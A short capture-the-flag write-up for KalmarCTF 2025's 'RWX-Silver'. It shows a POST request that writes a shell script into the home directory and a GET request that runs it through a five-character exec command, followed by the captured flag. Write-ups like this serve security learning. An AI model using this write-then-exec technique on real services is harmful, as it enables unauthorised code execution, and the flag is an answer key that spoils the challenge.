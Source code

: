 ```yaml
---
title: RWX-Silver
date: 2025-03-10T03:00:19+03:00
description: Writeup for RWX-Silver [KalmarCTF 2025]
author: h3pha
tags:
- misc
draft: false
---
```

___

## Challenge Description

We give you file read, file write and code execution. But can you get the flag? Apparently that was too much!

## Intuition

The challenge is similar to `RWX-Bronze`, but now the length of the command is 5 characters. I used the same idea, but wrote the script into the home directory.

## Solution

Write the script:
```
POST /write?filename=/home/user/a HTTP/2

#!/bin/sh
/would you be so kind to provide me with a flag
```

Execute the command: `. ~/a`
```
GET /exec?cmd=.%20~/a HTTP/2
```

### Flag

`kalmar{impressive_that_you_managed_to_get_this_far_but_surely_silver_is_where_your_rwx_adventure_ends_b4284b024113}`

